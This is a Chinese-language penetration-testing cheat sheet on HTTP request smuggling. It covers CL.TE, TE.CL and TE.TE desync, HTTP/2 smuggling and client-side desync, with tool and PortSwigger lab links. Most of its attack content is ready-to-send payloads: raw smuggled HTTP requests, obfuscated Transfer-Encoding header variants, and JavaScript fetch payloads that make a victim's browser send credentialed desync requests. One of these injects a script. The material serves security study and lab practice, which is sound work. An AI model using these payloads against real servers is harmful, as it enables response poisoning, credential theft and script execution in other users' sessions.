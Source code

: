 # 请求走私

> HTTP 请求走私发生在多个“实体”处理一个请求时，但它们对如何确定请求的开始/结束存在分歧。这种分歧可以被用来干扰另一个用户的请求/响应，或者绕过安全控制。它通常由于优先考虑不同的 HTTP 头部（Content-Length vs Transfer-Encoding）、处理格式错误的头部时的差异（例如是否忽略带有意外空格的头部）、降级到较旧协议的请求，或在部分请求超时并应被丢弃的时间点不同而发生。

## 概述

* [工具](#工具)
* [方法论](#方法论)
    * [CL.TE 漏洞](#clte-漏洞)
    * [TE.CL 漏洞](#tecl-漏洞)
    * [TE.TE 漏洞](#tete-漏洞)
    * [HTTP/2 请求走私](#http2-请求走私)
    * [客户端解同步](#客户端解同步)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 工具

* [bappstore/HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) - 专为 Burp Suite 设计的扩展程序，用于帮助发起 HTTP 请求走私攻击。
* [defparam/Smuggler](https://github.com/defparam/smuggler) - 用 Python 3 编写的 HTTP 请求走私/解同步测试工具。
* [dhmosfunk/simple-http-smuggler-generator](https://github.com/dhmosfunk/simple-http-smuggler-generator) - 此工具是为 Burp Suite 实践者认证考试和 HTTP 请求走私实验室开发的。

## 方法论

如果你想要手动利用 HTTP 请求走私，你会遇到一些问题，特别是在 TE.CL 漏洞中，你必须计算第二个请求（恶意请求）的块大小，正如 PortSwigger 建议的那样，“手动修复请求走私攻击中的长度字段可能会很棘手。”

### CL.TE 漏洞

> 前端服务器使用 Content-Length 头部，后端服务器使用 Transfer-Encoding 头部。

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

示例：

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

### TE.CL 漏洞

> 前端服务器使用 Transfer-Encoding 头部，后端服务器使用 Content-Length 头部。

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

示例：

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: 要使用 Burp Repeater 发送此请求，首先需要进入 Repeater 菜单，并确保未勾选“更新 Content-Length”选项。你需要在最后一个 0 后面包含尾随序列 `\r\n\r\n`。

### TE.TE 漏洞

> 前端和后端服务器都支持 Transfer-Encoding 头部，但可以通过某种方式模糊化该头部，使其中一台服务器不会处理它。

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

## HTTP/2 请求走私

如果机器将你的 HTTP/2 请求转换为 HTTP/1.1，则可能发生 HTTP/2 请求走私，并且你可以将无效的 Content-Length 头部、Transfer-Encoding 头部或换行符（CRLF）走私到翻译后的请求中。如果可以将 HTTP/1.1 请求隐藏在 HTTP/2 头部中，也可能发生 HTTP/2 请求走私。

```ps1
:method GET
:path /
:authority www.example.com
header ignored\r\n\r\nGET / HTTP/1.1\r\nHost: www.example.com
```

## 客户端解同步

在某些路径上，服务器不期望收到 POST 请求，并且会将其视为简单的 GET 请求，忽略负载，例如：

```ps1
POST / HTTP/1.1
Host: www.example.com
Content-Length: 37

GET / HTTP/1.1
Host: www.example.com
```

可能会被视为两个请求，而实际上应该是一个。当后端服务器两次响应时，前端服务器会假设只有第一个响应与此请求相关。

为了利用这一点，攻击者可以使用 JavaScript 触发受害者向易受攻击的站点发送 POST 请求：

```javascript
fetch('https://www.example.com/', {method: 'POST', body: "GET / HTTP/1.1\r\nHost: www.example.com", mode: 'no-cors', credentials: 'include'} )
```

这可以用于：

* 让易受攻击的站点将受害者的凭据存储在攻击者可以访问的地方
* 让受害者向某个站点发送漏洞利用（例如内部站点攻击者无法访问，或使攻击更难归因）
* 让受害者运行任意 JavaScript，仿佛来自该站点

**示例**：

```javascript
fetch('https://www.example.com/redirect', {
    method: 'POST',
        body: `HEAD /404/ HTTP/1.1\r\nHost: www.example.com\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
        credentials: 'include',
        mode: 'cors' // 抛出错误而不是跟随重定向
}).catch(() => {
        location = 'https://www.example.com/'
})
```

此脚本告诉受害者的浏览器向 `www.example.com/redirect` 发送一个 `POST` 请求。这会返回一个被 CORS 阻止的重定向，并导致浏览器执行 catch 块，导航到 `www.example.com`。

`www.example.com` 现在错误地处理了 `POST` 主体中的 `HEAD` 请求，而不是浏览器的 `GET` 请求，返回带有内容长度的 404 未找到响应，然后回复下一个误解的第三个请求（`GET /x?x=<script>...`），最后是浏览器的实际 `GET` 请求。
由于浏览器只发送了一个请求，它接受 `HEAD` 请求的响应作为其 `GET` 请求的响应，并将第三和第四个响应解释为响应体，从而执行攻击者的脚本。

## 实验室

* [PortSwigger - HTTP 请求走私，基本 CL.TE 漏洞](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)
* [PortSwigger - HTTP 请求走私，基本 TE.CL 漏洞](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)
* [PortSwigger - HTTP 请求走私，模糊化 TE 头部](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)
* [PortSwigger - 通过 H2.TE 请求走私进行响应队列投毒](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)
* [PortSwigger - 客户端解同步](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync)

## 参考文献

* [渗透测试人员指南：HTTP 请求走私 - Busra Demir - 2020 年 10 月 16 日](https://www.cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling)
* [高级请求走私 - PortSwigger - 2021 年 10 月 26 日](https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-smuggling)
* [浏览器驱动的解同步攻击：HTTP 请求走私的新领域 - James Kettle (@albinowax) - 2022 年 8 月 10 日](https://portswigger.net/research/browser-powered-desync-attacks)
* [HTTP 解同步攻击：请求走私重生 - James Kettle (@albinowax) - 2019 年 8 月 7 日](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
* [请求走私教程 - PortSwigger - 2019 年 9 月 28 日](https://portswigger.net/web-security/request-smuggling)